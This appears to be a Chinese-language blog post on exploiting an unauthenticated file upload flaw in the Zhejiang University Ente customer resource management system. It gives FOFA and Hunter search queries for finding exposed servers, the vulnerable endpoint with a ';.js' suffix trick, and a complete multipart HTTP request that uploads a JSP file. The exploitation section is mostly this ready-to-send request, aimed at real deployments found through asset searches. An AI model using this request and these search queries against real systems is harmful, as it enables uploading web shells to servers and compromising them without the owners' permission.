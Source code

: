 # 原创
：  现教学如何挖0day漏洞复现？

# 现教学如何挖0day漏洞复现？

**目录**

[简介](#%E7%AE%80%E4%BB%8B)

[资产收集](#%E8%B5%84%E4%BA%A7%E6%94%B6%E9%9B%86)

[漏洞复现](#%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0)

[nuclei验证](#nuclei%E9%AA%8C%E8%AF%81)

---


### 简介

浙大恩特客户资源管理系统是一款针对企业客户资源管理的软件产品。该系统旨在帮助企业高效地管理和利用客户资源，提升销售和市场营销的效果。

### 资产收集

fofa：title=”欢迎使用浙大恩特客户资源管理系统”<br/> hunter：web.title=”欢迎使用浙大恩特客户资源管理系统”

### 漏洞复现

漏洞地址：/entsoft/CustomerAction.entphone;.js?method=loadFile，可以上传jsp等文件，并给出上传之后的地址。<br/> 数据报如下：

```
POST /entsoft/CustomerAction.entphone;.js?method=loadFile HTTP/1.1
Host: xxxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=100BEE1C6DE1ED7BEF0C58564557C266; lang=zh-cn
Upgrade-Insecure-Requests: 1
If-Modified-Since: Wed, 10 Jun 2020 03:47:54 GMT
If-None-Match: W/"30144-1591760874831"
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarye8FPHsIAq9JN8j2A
Content-Length: 199

------WebKitFormBoundarye8FPHsIAq9JN8j2A
Content-Disposition: form-data; name="file";filename="as.jsp"
Content-Type: image/jpeg

&lt;%out.print("test");%&gt;
------WebKitFormBoundarye8FPHsIAq9JN8j2A--

```
